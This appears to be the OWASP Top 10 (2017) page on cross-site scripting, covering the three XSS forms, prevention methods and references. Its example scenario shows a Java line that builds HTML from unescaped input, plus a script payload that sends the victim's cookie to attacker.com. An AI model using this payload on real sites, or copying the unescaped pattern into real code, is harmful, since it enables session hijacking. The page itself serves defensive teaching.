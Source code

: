# A7:2017 Cross-Site Scripting (XSS)

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Access Lvl : Exploitability 3 | Prevalence 3 : Detectability 3 | Technical 2 : Business |
| Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks. | XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications. Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET. | The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim. |

## Is the Application Vulnerable?

There are three forms of XSS, usually targeting users' browsers:

* **Reflected XSS**: The application or API includes unvalidated and unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.
* **Stored XSS**: The application or API stores unsanitized user input that is viewed at a later time by another user or an administrator. Stored XSS is often considered a high or critical risk.
* **DOM XSS**: JavaScript frameworks, single-page applications, and APIs that dynamically include attacker-controllable data to a page are vulnerable to DOM XSS. Ideally, the application would not send attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover, MFA bypass, DOM node replacement or defacement (such as trojan login panels), attacks against the user's browser such as malicious software downloads, key logging, and other client-side attacks.

## How To Prevent

Preventing XSS requires separation of untrusted data from active browser content. This can be achieved by:

* Using frameworks that automatically escape XSS by design, such as the latest Ruby on Rails, React JS. Learn the limitations of each framework's XSS protection and appropriately handle the use cases which are not covered.
* Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The [OWASP  Cheat Sheet 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) has details on the required data escaping techniques.
* Applying context-sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the OWASP Cheat Sheet 'DOM based XSS Prevention'.
* Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) as a defense-in-depth mitigating control against XSS. It is effective if no other vulnerabilities exist that would allow placing malicious code via local file includes (e.g. path traversal overwrites or vulnerable libraries from permitted content delivery networks).

## Example Attack Scenario

**Scenario #1**: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
The attacker modifies the ‘CC’ parameter in the browser to:

`'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

**Note**: Attackers can use XSS to defeat any automated Cross-Site Request Forgery (CSRF) defense the application might employ.

## References

### OWASP

* [OWASP Proactive Controls: Encode Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Proactive Controls: Validate Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Application Security Verification Standard: V5](https://github.com/OWASP/ASVS/blob/v4.0.2/4.0/en/0x13-V5-Validation-Sanitization-Encoding.md)
* [OWASP Testing Guide: Testing for Reflected XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
* [OWASP Testing Guide: Testing for Stored XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
* [OWASP Testing Guide: Testing for DOM XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
* [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
* [OWASP Java Encoder Project](https://owasp.org/www-project-java-encoder/)

### External

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)

